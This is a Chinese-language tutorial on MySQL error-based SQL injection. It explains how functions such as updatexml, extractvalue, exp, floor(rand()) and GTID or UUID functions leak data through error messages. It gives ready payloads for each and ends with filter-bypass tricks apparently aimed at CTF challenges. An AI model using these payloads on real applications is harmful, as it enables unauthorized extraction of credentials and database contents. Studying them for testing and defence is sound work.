


# MySQL 报错注入总结


## 0x00 前言

报错注入适用于页面无回显位置，但是仍然返回报错信息的情况。

## 0x01 报错注入定义

报错注入是指通过特殊函数错误使用并使其输出错误结果来获取信息。简单地说，就是在可以进行 sql 注入的位置，调用特殊的函数，利用函数报错使其输出错误结果来获取数据库的相关信息。（数据库的信息包含在错误结果中）

- 报错注入的前提：服务器开启报错信息返回，也就是发生错误时返回报错信息。

常见的利用函数有：`exp()、floor()+rand()、updatexml()、extractvalue()`等

比如：

```mysql
select * from users where username=$username (and | or) updatexml(1,concat(0x7e,(select user()),0x7e),1)
```

因为 updatexml 函数的第二个参数需要满足 xpath 格式，我们在其前后添加字符 `~` ，使其不满足 xpath 格式，进行报错并输出。将上述 payload 的 `(select user())`当做联合查询法的注入位置，接下来的操作与联合查询法一样。

注意：

- 报错函数通常有其最长报错输出的限制，面对这种情况，可以进行分割输出。
- 特殊函数的特殊参数仅运行一个字段、一行数据的返回，使用 group_concat 等函数聚合数据即可。

## 0x02 报错注入原理分类

mysql 的报错注入主要是利用 mysql 数据库的一些逻辑漏洞，主要可以分为以下几类：

- BigInt 等数据类型溢出
- 函数参数格式错误
- 主键/字段重复


## 0x03 报错注入原理详解

- 前边说到，报错注入是通过特殊函数错误使用并使其输出错误结果来获取信息的，那么我们都有哪些特殊函数以及如何使用它们呢？

### 3.1 exp()

函数语法：`exp(int x)`

适用版本：5.5.5~5.5.49

该函数会返回 e 的 x 次方结果，如下图：



使用该函数时什么时候会报错呢？我们知道，次方到后边每增加 1，其结果都将跨度极大，而 mysql 能记录的 double 数值范围有限，一旦结果超过范围，那么该函数就会报错。如下图：



我们利用该函数进行报错注入的 payload 为：

```sql
exp(~(select * from ( select user() ) a ))
```

其中，~ 符号为取反运算符。我们通常将字符串经过处理后变成大整数，再放到 exp 函数内，得到的结果就可以超过 mysql 的 double 数值范围，从而报错输出。~~**至于为什么需要用两层子查询，这点我暂时还没有弄明白。**~~

> Every derived table must have its own alias
>
> 之所以要给子查询的表设别名 a，是因为在 mysql 中每个派生的表都必须要有别名。
>
> 所以 select * from (select user()) 才会报错，因为子查询的表没有设置别名。具体详情参看[此处](https://www.jianshu.com/p/c52180dd259a)
>
> 为何用子查询？一般在[子查询](https://so.csdn.net/so/search?q=子查询&spm=1001.2101.3001.7020)中，程序先运行在嵌套在最内层的语句，再运行外层。
>
> 带入在这里就是先执行 select user() 生成一个别名为 a 的表然后再用 select 查询这个表 a ，然后 exp 函数报错，mysql 告诉我们报错信息从而带出用户名。

除了`exp()`之外，还有类似`pow()`之类的相似函数同样是可利用的，他们的原理相同。

### 3.2 updatexml()

函数语法：`updatexml(XML_document, XPath_string, new_value);`

适用版本：5.1.5+

与 exp() 不同，updatexml 是由于参数的格式不正确而产生的错误，同样也会返回错误参数的信息。

payload:

```sql
updatexml(1,concat(0x7e,(select user()),0x7e),1)
```

我们在以上 payload 的前后添加 `~`(0x7e) 使其不符合 xpath 格式从而报错。

### 3.3 extractvalue()

函数语法：`EXTRACTVALUE (XML_document, XPath_string);`

适用版本：5.1.5+

- 利用原理与 updatexml 函数相同

payload：

```sql
and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```

### 3.4 rand()+count()

这个原理比较复杂，不过有篇文章写的很好，建议参看。

>关于以上三个函数组合形成报错注入的原理分析，强烈建议看这篇文章：https://wooyun.js.org/drops/Mysql%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E5%88%86%E6%9E%90(count()%E3%80%81rand()%E3%80%81group%20by).html
>
>关于相关函数函数介绍在这里：[count](https://www.yiibai.com/mysql/count.html)


payload 用法：

```sql
union select count(*) , 2, concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a
```

#### 几何函数报错注入

- GeometryCollection：`id=1 AND GeometryCollection((select * from (select* from(select user())a)b))`
- polygon()：`id=1 AND polygon((select * from(select * from(select user())a)b))`
- multipoint()：`id=1 AND multipoint((select * from(select * from(select user())a)b))`
- multilinestring()：`id=1 AND multilinestring((select * from(select * from(select user())a)b))`
- linestring()：`id=1 AND LINESTRING((select * from(select * from(select user())a)b))`
- multipolygon() ：`id=1 AND multipolygon((select * from(select * from(select user())a)b)`

#### uuid 相关函数

适用版本：8.0.x

参数格式不正确。

```sql
mysql> SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
mysql> SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```

#### GTID 相关函数

参数格式不正确。

```sql
mysql>select gtid_subset(user(),1);
mysql>select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
mysql>select gtid_subtract((select * from(select user())a),1);
```

#### join using() 注列名

通过系统关键词join可建立两个表之间的内连接。

通过对想要查询列名的表与其自身建立内连接，会由于冗余的原因(相同列名存在)，而发生错误。

并且报错信息会存在重复的列名，可以使用 **USING** 表达式声明内连接（INNER JOIN）条件来避免报错。

```sql
mysql>select * from(select * from users a join (select * from users)b)c;
mysql>select * from(select * from users a join (select * from users)b using(username))c;
mysql>select * from(select * from users a join (select * from users)b using(username,password))c;
```


## 绕过过滤

### 绕过空格过滤

一般代替空格的字符串有

- %09
- %0a
- %0b
- %0d
- %0c

### 绕过回显关键字过滤

有时候题目可能会在回显的时候限制不能出现 flag 等字符，这种情况下我们一般可以采用编码绕过，常见的编码函数有

- to_base64
- hex

如果题目还限制了不能出现数字，那我们只能采用盲注了


## 参考链接

[对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-18)
